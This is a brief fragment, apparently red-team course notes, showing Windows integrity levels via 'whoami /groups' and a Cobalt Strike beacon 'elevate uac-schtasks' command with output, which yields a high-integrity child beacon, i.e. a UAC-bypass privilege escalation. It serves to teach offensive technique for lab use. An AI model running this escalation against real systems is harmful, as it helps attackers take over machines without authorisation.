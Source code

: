 Restricted:
```
C:\Users\bfarmer>whoami /groups

Mandatory Label\Medium Mandatory Level
```
Not Restricted:
```
C:\Windows\system32>whoami /groups

Mandatory Label\High Mandatory Level
```

elevate Cobalt Strike
```
beacon> elevate uac-schtasks tcp-local
[*] Tasked Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444) in a high integrity context
[+] established link to child beacon: 10.10.123.102
```